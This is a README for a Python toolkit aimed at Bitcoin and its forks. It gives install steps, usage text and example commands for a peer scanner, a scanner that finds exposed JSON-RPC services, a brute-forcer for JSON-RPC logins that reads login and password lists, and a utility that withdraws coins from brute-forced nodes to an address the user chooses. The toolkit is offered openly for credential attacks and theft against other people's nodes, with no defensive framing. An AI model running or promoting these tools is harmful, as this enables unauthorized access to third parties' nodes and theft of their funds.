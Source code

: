 # pyshella-toolkit

[![Python 3.7](https://img.shields.io/badge/python-3.7-blue.svg)](https://www.python.org/downloads/release/python-370/)
![Platform](https://img.shields.io/badge/platform-linux-green.svg)
[![GitHub license](https://img.shields.io/github/license/Naereen/StrapDown.js.svg)](https://github.com/Naereen/StrapDown.js/blob/master/LICENSE)

This is simple toolkit for Bitcoin or Bitcoin forks , which contains
cli scripts such as `peers-scanner`, `jsonrpc-searcher`, 
`jsonrpc-bruter`, `coins-withdrawal`.


## **Getting started**
* [Installation](#installation)
* [Peers Scanner](#peers-scanner)
* [JSON-RPC Searcher](#json-rpc-searcher)
* [JSON-RPC Bruter](#json-rpc-bruter)
* [Coins Withdrawal](#coins-withdrawal)



## Installation
```bash
git clone https://github.com/mkbeh/pyshella-toolkit
cd pyshella-toolkit/
pip3.7 install wheel
python3.7 setup.py install --user

# NOTE: if error - try previously 
pip3.7 install wheel
export PYTHONPATH=~/.local/lib/python3.7/site-packages
```


## Peers Scanner
The `peers scanner` scans the network for available peers and 
writes them to a file. For new peers, old ones are blacklisted.

### How to use
```
usage: pyshella-peers-scanner [-h] -nU  [-b] [-i] -mU   -n

optional arguments:
  -h, --help            show this help message and exit
  -nU , --node-uri      Node URI.
  -b , --ban-time       The time(days) which will be banned each peer (by
                        default 14 days).
  -i , --interval       Interval(secs) between call cycles for new peers (by
                        default 60 secs).
  -mU  , --mongo-uri    MongoDB uri.
  -n  , --coin-name     Name of cryptocurrency.

-----------------------------------------------------------------------------
Usage example: pyshella-peers-scanner -nU <node_uri> -mU <mongo_uri> -n <coin_name>
```

## JSON-RPC Searcher
Scanner which discovers Bitcoin/forks JSON-RPC on peers.

### How to use
```
usage: pyshella-jsonrpc-searcher [-h] -n NAME [-mU URI] [-cT SECS] [-rT SECS]
                                 [-bT SECS] [-hS NUM] [-pS NUM] [-v BOOL]

optional arguments:
  -h, --help            show this help message and exit
  -n NAME, --coin-name NAME
                        Name of cryptocurrency.
  -mU URI, --mongo-uri URI
                        MongoDB URI. Default:
                        mongodb://root:toor@localhost:27017
  -cT SECS              Timeout between hosts block cycles.
  -rT SECS              Time to wait for a response from the server after
                        sending the request.
  -bT SECS              Delay between block cycles.
  -hS NUM               The number of hosts that will be processed
                        simultaneously.
  -pS NUM               The number of ports that will be processed
                        simultaneously for each host.
  -v BOOL               Activate verbose mode. Will show all found headers.

-----------------------------------------------------
Usage example: pyshella-jsonrpc-searcher -n Bitcoin -bT 1 -hS 1 -pS 200 -v True
```


## JSON-RPC Bruter
Bitcoin/fork JSON-RPC bruter. Based on asyncio.

### How to use
```
usage: pyshella-jsonrpc-bruter [-h] -n NAME [-mU URI] -l SINGLE/FILE -p
                               SINGLE/FILE [-b ORDER] [-t NUM] [-rT SECS]
                               [-cT SECS]
optional arguments:
  -h, --help            show this help message and exit
  -n NAME, --coin-name NAME
                        Name of cryptocurrency.
  -mU URI, --mongo-uri URI
                        MongoDB URI. Default:
                        mongodb://root:toor@localhost:27017
  -l SINGLE/FILE, --logins SINGLE/FILE
                        Single login or file with logins.
  -p SINGLE/FILE, --passwords SINGLE/FILE
                        Single password or file with passwords.
  -b ORDER, --brute-order ORDER
                        The order in which the brute force process will occur.
                        Where H - hosts, L - logins, P - passwords. Default:
                        HLP. Examples: HLP, LPH, PHL, etc.
  -t NUM, --threads NUM
                        The number of coroutines that will be asynchronous in
                        bruteforce process.
  -rT SECS, --read-timeout SECS
                        Time to wait for a response from the server after
                        sending the request.
  -cT SECS, --cycle-timeout SECS
                        Timeout between getting new data for brute.

----------------------------------------------------------------------------------------------
Usage example:
-> pyshella-jsonrpc-bruter --help
-> pyshella-jsonrpc-bruter -n Bitcoin -t 20 -l <logins_file> -p <pwds_file> -b HLP
```


## Coins Withdrawal
Utility which withdrawal crypto currency from bruted JSON-RPC.

### How to use
```
usage: pyshella-coins-withdrawal [-h] -n NAME -mU URI -a ADDR [-i SECS]

optional arguments:
  -h, --help            show this help message and exit
  -n NAME, --coin-name NAME
                        Name of cryptocurrency.
  -mU URI, --mongo-uri URI
                        MongoDB uri.
  -a ADDR, --withdrawal-address ADDR
                        The address to which the coins will be sent.
  -i SECS, --interval SECS
                        Timeout after coins withdrawal from all the peers that
                        were collected in the database at the moment.

-----------------------------------------------------------------------------------------------------------------------
Usage example: pyshella-coins-withdrawal -n Bitcoin -mU mongodb://root:toor@localhost:27017 -a <withdrawal_addr> -i 300
```
